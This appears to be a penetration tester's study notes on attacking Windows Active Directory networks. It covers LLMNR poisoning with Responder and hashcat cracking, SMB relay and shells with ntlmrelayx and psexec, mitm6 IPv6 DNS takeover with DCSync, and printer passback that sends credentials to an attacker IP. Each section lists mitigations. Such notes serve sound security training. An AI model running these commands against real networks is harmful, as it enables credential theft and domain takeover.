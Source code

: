 
LLMNR Poisoning:

>MitM
>responder
>	`sudo responder -I eth0 -dwPv`
>		ensure ip is correct, and everything is ON by default (mainly HTTPS and SMB)
>	Intercept request to gain hash
>		On target machine,` \\attackerip`
>	a
>	place hash(es) in hashes.txt
>	
>	`hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt -O
>		`-m detrmined module. hashcat --help | grep NTLM
>		you can use --force to force the VM
>		`-r OneRule` for advanced cracking
>	
>	`hashcat -m 5600 hashes.txt /usr/share/wordlists/rockyou.txt --show
>	
>	
>	Mitigation:
>		Disable LLMNR and NTBDS
>		If unable to do this, require Network Access Control
>		a
>		 require strong password policy to avoid hash cracking


SMB Relay Attacks

>SMB signing must be disabled or not enforced (DC defaullt disabled)
>
>	Check using `nmap --script=smb2-security-mode.nse -p445 IP/24 (-Pn)
>	Run responder again
>	`sudo ntlmrelayx.py -tf targets.txt -smb2support -c "command to run"
>	Event connects to attacker machine
>	Check admin hash
>	`sudo ntlmrelayx.py -tf targets.txt -smb2support -c "command to run" -i
>	same attack opens a client shell on 127.0.0.1:11000
>	`nc 127.0.0.1 11000
>	
>Defense:
>Enable SMG signing on all devices
>Disable NTLM authentication
>Account tiering
>Local admin restriction)


Gaining Shell Access:

>msfconsole (exploit/windows/smb/psexec)
>	you can set the password as plaintext or hash
>	set rhosts
>	set smbdomain <name.local>
>	set smbuser
>	set smbpass
>	a
>	background
>	sessions ID
>
>psexec.py dcname.local/user:'Password'@target-ip
>OR
>psexec.py administrator@IP-ADDY -hashes password-hash


IPv6 Attacks (DNS Takeover):

>mitm6
>DO NOT RUN LONGER THAN 5-10 MINUTES AT A TIME
	ntlmrelayx.py -6 -t ldaps://dc-ip -wh fakewpad.domain.local -l lootme
	sudo mitm6 -d dcname.local
	Check lootme directory
	Watch mitm6, if a login from an administrator account is intercepted, it could create an account for the attacker
	You can use DCSync using secretsdump.py
		a
	Mitigation:
		set up blocks blocking inbound and outbound IPv6 requests
		disable WPAD if uneeded
		enable LDAP signing
		mark administration accounts as sensitive, or a Protected User

Passback Attacks:

>Change printer LDAP to attacker IP and port
>set up listener using responder or netcat -L -p 389
>password will be sent to attacker


